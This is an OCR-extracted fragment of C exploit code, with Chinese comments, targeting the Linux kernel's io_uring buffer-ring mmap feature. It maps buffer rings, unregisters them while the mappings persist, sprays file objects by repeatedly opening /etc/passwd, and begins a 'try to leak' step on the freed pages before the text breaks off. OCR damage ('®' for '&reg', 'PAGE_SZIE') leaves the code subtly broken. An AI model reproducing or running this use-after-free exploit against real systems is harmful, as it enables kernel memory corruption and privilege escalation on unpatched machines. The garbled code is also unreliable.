 ```
// 2、初始化 io_uring
    check_ret(io_uring_queue_init(32,&ring,0),"io_uring_queue_init fail");
    bufs = calloc(nr_bufs,sizeof(*bufs));
    fds = malloc(nr_files*(sizeof(int)));    
    /**
     * nr_pages: 有多少页，构造页数
     * entries = nr_pages*(PAGE_SIZE/sizeof(struct io_uring_buf))
     * mmap_size = entries*sizeof(struct io_uring_buf);
     */
    entries = MAX_ring_entries/2;
    if(entries>MAX_ring_entries){
        die("entries too large");
    }
    nr_pages = entries/256;
    logi("nr_pages -> %d entries -> %d",nr_pages,entries);
// 3、注册 IOU_PBUF_RING_MMAP  
    logu("register buf ring <- IOU_PBUF_RING_MMAP");

    for (size_t i = 0; i < nr_bufs; i++)
    {
        memset(®,0,sizeof(reg));
        reg.bgid=i;
        reg.flags=IOU_PBUF_RING_MMAP;
        reg.ring_entries=entries;
        ret=io_uring_register_buf_ring(&ring,®,0);
        if(ret < 0){
            die("io_uring_register_buf_ring fail [%d]",i);
        }
        mmap_size = reg.ring_entries*sizeof(struct io_uring_buf);
        mmap_off = IORING_OFF_PBUF_RING | (unsigned long long) i << IORING_OFF_PBUF_SHIFT;
        bufs[i] = mmap(
            NULL,
            mmap_size,
            PROT_READ|PROT_WRITE,
            MAP_SHARED,
            ring.ring_fd,
            mmap_off
        );
        if(bufs[i]==MAP_FAILED){
            die("mmap fail");
        }
        io_uring_buf_ring_init(bufs[i]);
        // logu("br[%d] -> %p",i,br[i]);
    }
    logu("unregister buf ring");
    for (size_t i = 0; i < nr_bufs; i++)
    {
        io_uring_unregister_buf_ring(&ring, i);
    }
    
    logi("sparying...");
    for (size_t i = 0; i < nr_files; i++)
    {
        fds[i] = open("/etc/passwd", O_RDONLY);
        check_ret(fds[i],"failed to open file");
    }
    logi("try to leak...");
    for (size_t i = 0; i < nr_bufs; i++)
    {
        ret = change_mode(bufs[i],PAGE_SZIE*nr_pages);
        if(ret<0)continue;
        logi("change_mode success!!!");

```